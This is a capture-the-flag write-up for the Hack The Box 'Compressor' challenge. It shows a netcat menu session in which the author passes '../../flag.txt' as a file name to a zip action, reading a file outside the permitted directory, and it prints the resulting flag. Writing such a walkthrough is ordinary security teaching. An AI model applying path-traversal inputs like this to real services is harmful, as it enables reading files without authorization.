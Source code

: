 # Misc 1: Compressor
> Ramona's obsession with modifications and the addition of artifacts to her body has slowed her down and made her fail and almost get killed in many missions. For this reason, she decided to hack a tiny robot under Golden Fang's ownership called "Compressor", which can reduce and increase the volume of any object to minimize/maximize it according to the needs of the mission. With this item, she will be able to carry any spare part she needs without adding extra weight to her back, making her fast. Can you help her take it and hack it?


#### Difficulty: ★☆☆☆

As there are no downloadable elements, I spun up the Docker image to start the challenge. I then connected to it via netcat, where I was presented with a menu:

```
[*] Directory to work in: V7lTDhNr4q059xYaUdjwcsuXjhO3VLug

Component List:

+===============+
|               |
|  1. Head  🤖  |
|  2. Torso 🦴   |
|  3. Hands 💪  |
|  4. Legs  🦵   |
|               |
+===============+

[*] Choose component:

```


Choosing any component takes us to a subdirectory named after that component and a few actions:


```
[*] Sub-directory to work in: V7lTDhNr4q059xYaUdjwcsuXjhO3VLug/Head


Actions:

1. Create artifact
2. List directory    (pwd; ls -la)
3. Read artifact     (cat ./<name>)
4. Compress artifact (zip <name>.zip <name> <options>)
5. Change directory  (cd <dirname>)
6. Clean directory   (rm -rf ./*)
7. Exit

[*] Choose action:
```

Looks like they listed precisely which commands will be executed per action. I keyed in action 2 to figure out the paths:

```
[*] Choose action: 2
/home/ctf/V7lTDhNr4q059xYaUdjwcsuXjhO3VLug/Head
total 8
drwxr-sr-x    2 ctf      ctf           4096 May 17 02:18 .
drwxr-sr-x    6 ctf      ctf           4096 May 17 02:18 ..



Actions:

1. Create artifact
2. List directory    (pwd; ls -la)
3. Read artifact     (cat ./<name>)
4. Compress artifact (zip <name>.zip <name> <options>)
5. Change directory  (cd <dirname>)
6. Clean directory   (rm -rf ./*)
7. Exit

[*] Choose action:
```

Based on the commands they listed on action 4, there is nothing stopping me from adding a file from outside the current directory, which I did with the path from `pwd` as my reference point.

```
Actions:

1. Create artifact
2. List directory    (pwd; ls -la)
3. Read artifact     (cat ./<name>)
4. Compress artifact (zip <name>.zip <name> <options>)
5. Change directory  (cd <dirname>)
6. Clean directory   (rm -rf ./*)
7. Exit

[*] Choose action: 4


Insert <name>.zip: hehe
Insert <name>: ../../flag.txt
Insert <options>:
  adding: ../../flag.txt (stored 0%)
```

Looks like the flag was successfully added, so I used action 3 to read the contents of the zip:


```
Actions:

1. Create artifact
2. List directory    (pwd; ls -la)
3. Read artifact     (cat ./<name>)
4. Compress artifact (zip <name>.zip <name> <options>)
5. Change directory  (cd <dirname>)
6. Clean directory   (rm -rf ./*)
7. Exit

[*] Choose action: 3


Insert name you want to read: hehe.zip
PK
���Txl��&&../../flag.txtUT     �E}b�E}bux
                                           HTB{GTFO_4nd_m4k3_th3_b35t_4rt1f4ct5}
PK
���Txl��&&��../../flag.txtUT�E}bux
                                      PKTn
```


which gave me the flag

`HTB{GTFO_4nd_m4k3_th3_b35t_4rt1f4ct5}`
